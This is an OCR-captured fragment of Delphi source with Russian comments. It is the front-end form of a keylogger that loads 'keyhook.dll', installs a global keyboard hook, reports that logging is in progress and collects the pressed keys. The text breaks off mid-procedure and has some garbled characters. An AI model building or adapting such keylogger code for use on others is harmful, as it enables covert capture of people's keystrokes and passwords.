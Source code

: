     procedure TForm1.Button1Click(Sender: TObject);
    var
    Hook: procedure (switch : Boolean; hMainProg: HWND) stdcall;
    begin
    {посылаю своему окну сообщение для того ?то бы не выводился первый символ - см. WndProc}
    SendMessage(Form1.Handle, WM_MYKEYHOOK, VK_SPACE, Application.MainForm.Handle);
    @hook:= nil; // инициализируем переменную hook
    hDLL:=LoadLibrary(PChar('keyhook.dll')); { загрузка DLL }
    if hDLL > HINSTANCE_ERROR then
    begin { если вс? без ошибок, то }
    @hook:=GetProcAddress(Hdll, 'hook'); { полу?аем указатель на необходимую процедуру}
    Button2.Enabled:=True;
    Button1.Enabled:=False;
    StatusBar1.SimpleText:= 'Status: DLL loaded...';
    hook(true, Form1.Handle);
    StatusBar1.SimpleText:= 'Status: loging in progress...';
    end
    else
    begin
    ShowMessage('Ошибка при загрузке DLL !');
    Exit;
    end;
     
    end;
     
    procedure TForm1.Button2Click(Sender: TObject);
    var
    Hook: procedure (switch : Boolean; hMainProg: HWND) stdcall;
    begin
    @hook:= nil; // инициализируем переменную hook
    if hDLL > HINSTANCE_ERROR then
    begin { если вс? без ошибок, то }
    @hook:=GetProcAddress(Hdll, 'hook'); { полу?аем указатель на необходимую процедуру}
    Button1.Enabled:=True;
    Button2.Enabled:=False;
    hook(false, Form1.Handle);
    if FreeLibrary(hDLL) then
    begin
    StatusBar1.SimpleText:= 'Status: DLL unloaded.';
    sleep(1000)
    end
    else
    begin
    StatusBar1.SimpleText:= 'Status: ERROR while unloading DLL';
    Exit;
    end;
    StatusBar1.SimpleText:= 'Status: loging stoped';
    end;
     
    end;
     
    {
    подмена процедуры окна - необходимо для обработки сообщений, поступивших из
    DLL (см. исходный код DLL)
    }
    procedure TForm1.WndProc(var Msg: TMessage);
    begin
    inherited ; // выполняем вс? то, ?то должно происходить при поступлении сообщеня окну
    {Но если пришло мо? сообщение - выполняем следующий код}
    if Msg.Msg = WM_MYKEYHOOK then
    begin
    {
    Если пользователь поменял окно или переменная, содержащая нажатые клавишы
    превысила допустимое зна?ение - обнуляем keys и выводим статистику.
    }